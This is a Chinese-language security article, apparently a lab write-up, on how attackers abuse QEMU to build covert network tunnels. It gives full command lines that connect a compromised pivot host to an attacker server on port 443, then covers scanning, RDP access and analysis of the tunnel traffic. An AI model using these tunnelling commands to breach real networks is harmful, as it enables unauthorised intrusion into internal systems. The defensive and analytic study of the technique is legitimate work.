

# 一种利用合法工具渗透的新型方法

摘要

黑客在执行各种攻击步骤时倾向于优先选择合法工具，因为这些工具能帮助他们规避检测系统，同时将恶意软件开发成本降至最低。网络扫描、捕获进程内存转储、数据外泄、远程运行文件，甚至加密驱动器——所有这些都可以通过可信软件完成。为了在受损基础设施内获得立足点并发起攻击，黑客可以利用先前安装的恶意软件或通过公司的远程桌面协议（RDP）服务器或企业 VPN 与员工一同连接到网络（攻击者必须拥有具有适当权限的账户）。连接到受攻击组织的内部网络的另一种方式涉及使用实用程序设置网络隧道或在企业系统和对手服务器之间转发网络端口，从而使攻击者能够绕过 NAT 和防火墙，获取对内部系统的访问权限。本片文章讲述就是这类软件。

QEMU 利用方法

先来看一段命令行, 该命令可以在没有 LiveCD 或磁盘映像的情况下启动:

```bash
qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev
socket,id=sock,connect=<IP>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev
hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

该命令的参数解释如下:

- `qemu-system-i386.exe`: QEMU 系统的可执行文件。
- `-m 1M`: 指定虚拟机的内存大小为 1MB。这里指定的内存量非常小，可以模拟某些特定场景或测试用途。
- `-netdev user,id=lan,restrict=off`: 创建一个用户模式网络设备，其 ID 为`lan`，并且禁用了限制（`restrict=off`）。用户模式网络设备允许虚拟机通过主机的网络连接到外部网络。
- `-netdev socket,id=sock,connect=<IP>:443`: 创建一个基于 Socket 的网络设备，其 ID 为`sock`，并且连接到指定 IP 地址和端口 443。可用于与远程服务器建立网络通信。
- `-netdev hubport,id=port-lan,hubid=0,netdev=lan`: 创建一个网络集线器端口，其 ID 为`port-lan`，并将其连接到 ID 为`lan`的网络设备。
- `-netdev hubport,id=port-sock,hubid=0,netdev=sock`: 创建另一个网络集线器端口，其 ID 为`port-sock`，并将其连接到 ID 为`sock`的网络设备。
- `-nographic`: 这个参数指定不使用图形界面显示虚拟机的输出。通常用于在没有图形界面的环境中运行虚拟机，比如通过 SSH 连接。

通过上面的命令, 攻击者可以启动一个非常小的 QEMU 虚拟机, 该虚拟机具有一个基于用户模式的网络设备和一个基于 Socket 的网络设备, 可以用于建立到指定 IP 地址和端口的网络连接。

根据 QEMU 文档描述, QEMU 与 QEMU 虚拟机之间是可以进行远程网络连接的, 如果攻击者攻入一个企业内部, 该企业内部正好也使用了 QEMU 虚拟机, 那么攻击者便可以建立外网 QEMU 与企业内网 QEMU 之间的网络连接。

用户网络堆栈和虚拟集线器

用户网络堆栈式将虚拟机连接到网络的最简单方法, 流量通过主机网络堆栈传递, 虚拟机连接到网络, 就好像它是主机机器上的常规应用程序一样。看下面这条命令:

```bash
qemu-system-x86_64 -netdev user,id=mynet0 -device e1000,netdev=mynet0
```

该命令参数含义如下:

- `qemu-system-x86_64`: QEMU 系统的可执行文件，用于启动 x86_64 架构的虚拟机。
- `-netdev user,id=mynet0`: 创建一个用户模式网络设备，其 ID 为`mynet0`。用户模式网络设备允许虚拟机通过主机的网络连接到外部网络。
- `-device e1000,netdev=mynet0`: 创建一个 e1000 型号的网络设备，并将其连接到 ID 为`mynet0`的网络设备。e1000 是一种虚拟网卡设备，常用于 QEMU 虚拟机中模拟以太网连接。

该命令启动了一个 QEMU 虚拟机，该虚拟机具有一个用户模式的网络设备，允许连接到外部网络，并使用 e1000 型号的网络设备模拟以太网连接。

QEMU 虚拟集线器是一种网络设备，用于在 QEMU 虚拟机之间建立网络连接。它类似于物理网络集线器，可以将多个虚拟机连接到同一个网络中，从而实现虚拟机之间的通信。通过虚拟集线器，虚拟机可以进行网络数据包的交换和传输，就像它们连接到同一个物理网络设备一样。虚拟集线器通常与其他网络设备配合使用，如虚拟网络适配器和套接字，以便在虚拟环境中模拟网络通信。

QEMU Socket

这种方式是通过网络套接字连接虚拟机, 以创建虚拟机网络拓扑或链接在不同主机上启动的虚拟机。

首先启动一个 VM1, 命令如下:

```bash
qemu-system-x86_64 -netdev socket,id=mynet3,listen=:1234 -device e1000,netdev=mynet3
```

然后启动一个 VM2, 并连接到 VM1,命令如下:

```bash
qemu-system-x86_64 -netdev socket,id=mynet4,connect=127.0.0.1:1234 -device
e1000,netdev=mynet4
```

VM1 在端口 1234 上监听，而 VM2 连接到该端口, 对于攻击者来说, 相当于在受害系统中启动一个客户端, 让它连接到攻击者服务器以打开对企业网络的访问权限, 该网络位于运行客户端的系统中, 这种方式几乎不会影响受害系统的性能, 因为攻击者在运行 QEMU 时既不会使用磁盘映像也不使用 LiveCD。

下面将通过一个模拟环境来模拟实现上面技术, 模拟的网络环境主要包含三个部分:

- InternalHost 位于网络内部，没有互联网访问权限，并在端口 3389 上运行 RDP 服务器。它模拟了无法访问互联网的隔离系统。
- PivotHost 位于网络内部，但具有互联网访问权限。它模拟了被攻击者入侵并用于到达 InternalHost 的系统。
- AttackerServer 托管在云中，模拟了攻击者服务器。

以下是模拟环境的网络布局情况, 如图:


在以上环境中, 在攻击者服务器上使用 QEMU 启动了一个来自 Kali Linux LiveCD 的虚拟机, 一个套接字类型的网络设备连接到虚拟机作为网络适配器, 并在端口 443 上进行监听。启动命令如下:

```bash
qemu-system-x86_64 -boot d -cdrom kali-linux-2023.3-live-amd64.iso -m 6048 -device
e1000,netdev=n1,mac=52:54:00:12:34:56 -smp 2 -netdev socket,id=n1,listen=:443
```

在 PivotHost 上运行了另一个 QEMU 副本，并通过套接字网络设备连接到位于云端的 AttackerServer 的 443 端口。此外还连接了一个用户类型的网络设备，通过一个集线器与套接字连接在一起。启动命令如下:

```bash
qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev
socket,id=sock,connect=<AttackerServer>:443 -netdev hubport,id=port-
lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

一旦启动，QEMU 在 PivotHost 和攻击者服务器之间建立了一个网络隧道，更确切地说，是到 Kali Linux 虚拟机。Kali Linux 可以扫描与 PivotHost 连接的子网以查找其他系统, 如图:



扫描发现了内部主机，其 IP 地址为 192.168.56.109。Nmap 显示端口 3389 是开放的。尝试使用 RDP 连接到内部主机, 如图:


因此，基本可以确定这种实现网络访问的技术确实有效。除了前面提到的网络设备类型外，QEMU 还支持其他几种类型，这些类型也可以被恶意行为者利用。

QEMU 网络流量分析

进行流量隧道传输时，QEMU 不使用任何额外的加密。它传输封装的数据包是未加密的：发送到服务器的应用层数据包含封装的以太网帧的大小，如图:


上图中封装的以太网帧大小为 89（0x59）字节。该值紧随其后的就是封装的以太网帧数据。

将流量进行存储，随后可以通过移除前 58 个字节（对于 TCP：14 个字节用于以太网 + 20 个字节用于 IP + 20 个字节用于 TCP 头 + 4 用于内部数据包大小）来获得封装的流量。这可以在从 PCAP 文件中删除所有不含封装流量的数据包之后，使用 Wireshark 软件包中的 editcap 程序来完成。命令如下:

```bash
editcap.exe -L -C 58 original.pcap extracted_traffic.pcap
```

结果是一个 PCAP 文件，其中包含通过隧道发送的流量, 如图:


